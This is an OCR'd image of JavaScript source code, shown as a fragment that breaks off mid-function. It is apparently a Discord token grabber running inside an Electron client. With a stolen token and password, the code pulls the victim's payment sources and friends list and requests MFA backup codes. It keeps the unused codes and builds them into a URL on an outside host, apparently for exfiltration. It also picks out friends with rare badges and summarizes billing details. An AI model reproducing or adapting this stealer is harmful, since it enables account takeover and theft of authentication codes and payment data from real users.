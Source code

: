                             xmlHttp.open( "GET", "https://discord.com/api/v9/users/@me/billing/payment-sources", false );
                            xmlHttp.setRequestHeader("Authorization", "${token}");
                            xmlHttp.send( null );
                            xmlHttp.responseText`, !0).then((info3) => {
                window.webContents.executeJavaScript(`
                            var xmlHttp = new XMLHttpRequest();
                            xmlHttp.open( "GET", "https://discord.com/api/v9/users/@me/relationships", false );
                            xmlHttp.setRequestHeader("Authorization", "${token}");
                            xmlHttp.send( null );
                            xmlHttp.responseText`, !0).then((info4) => {
                    if (token.startsWith("mfa")) {
                        window.webContents.executeJavaScript(`
                            var xmlHttp = new XMLHttpRequest();
                            xmlHttp.open("POST", "https://discord.com/api/v9/users/@me/mfa/codes", false);
                            xmlHttp.setRequestHeader('Content-Type', 'application/json');
                            xmlHttp.setRequestHeader("authorization", "${token}")
                            xmlHttp.send(JSON.stringify({\"password\":\"${password}\",\"regenerate\":false}));
                            xmlHttp.responseText`, !0).then((codes) => {
                            var fieldo = [];
                            var baseuri = "https://furry.surf/raw/"
                            var gayass = JSON.parse(codes)
                            let g = gayass.backup_codes
                            const r = g.filter((code) => {
                                return code.consumed == null
                            })
                            for (let z in r) {
                                fieldo.push({
                                    name: `code:`,
                                    value: `\`${r[z].code.insert(4, "-")}\``,
                                    inline: true
                                })
                                baseuri += `${r[z].code.insert(4, "-")}<br>`
                            }
                            function totalFriends() {
                                var f = JSON.parse(info4)
                                const r = f.filter((user) => {

                                    return user.type == 1
                                })
                                return r.length
                            }
                            function calcFriends() {
                                var f = JSON.parse(info4)
                                const r = f.filter((user) => {
                                    return user.type == 1
                                })
                                var gay = "";
                                for (z of r) {
                                    var b = GetRBadges(z.user.public_flags)
                                    if (b != "") {
                                        gay += b + ` ${z.user.username}#${z.user.discriminator}\n`
                                    }
                                }
                                if (gay == "") {
                                    gay = "no rare friends"
                                }
                                return gay
                            }
                            function cool() {
                                const json = JSON.parse(info3)
                                var billing = "";
                                json.forEach(z => {
                                    if (z.type == "") {
                                        return "\`❌\`"